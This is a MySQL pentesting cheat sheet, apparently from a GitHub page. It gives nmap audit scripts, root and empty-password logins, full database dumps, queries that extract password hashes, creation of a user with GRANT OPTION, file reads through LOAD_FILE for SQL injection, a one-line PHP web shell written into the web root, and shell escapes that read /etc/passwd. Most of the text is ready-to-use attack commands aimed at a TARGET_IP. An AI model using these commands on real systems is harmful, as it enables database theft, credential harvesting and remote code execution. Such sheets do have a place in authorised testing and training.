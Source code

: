 

----
## MYSQL Pentesting

nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 TARGET_IP


##  MYSQL Version - MSF


use auxiliary/scanner/mysql/mysql_version



## Mysql client

mysql -h TARGET_IP
mysql -h TARGET_IP -u root
mysql -h TARGET_IP -u root@localhost
mysql -h TARGET_IP -u ""@localhost
mysql -h TARGET_IP -e "QUERY"
mysql -h TARGET_IP -u root -pPASSWORD -e "QUERY"


##  Run several sql commands concurrently

mysql -u username -p < manycommands.sql



##  SQL - Command History

cat ~/.mysql.history



##  SQL -  Dump DB

mysqldump -u USERNAME -p PASSWORD --all-databases --skip-lock-tables > dump.sql

mysqldump -u USERNAME -p PASSWORD DATABASE_NAME --skip-lock-tables > dump.sql




##  SQL - Queries

##  Enum SQL

SELECT version();
SELECT user();
SELECT database();
show databases;
SHOW TABLES;
SHOW TABLES FROM DATABASE_NAME;
SHOW Grants;
show variables;


##  DB user Info

SELECT user,password, file_priv FROM mysql.user;



##  SQL DB user Info

SELECT host, user, authentication_string from mysql.user;



##  SQL - Create a new user and grant him privileges

create user test identified by 'test';
grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;



## Interact with OS


##  SQL - Read file

SELECT LOAD_FILE('FILE_PATH');


##  SQL - Read file BASE64

This is useful to read a php file while doing sqli

SELECT BASE64(LOAD_FILE('FILE_PATH'));


##  SQL -  Write file

SELECT "<?php echo system($_GET['cmd']);?>" into OUTFILE '/var/www/html/shell.php'


##  SQL - Remote Code Execution (Windows)


### Linux

mysql> \! cat /etc/passwd
mysql> \! bash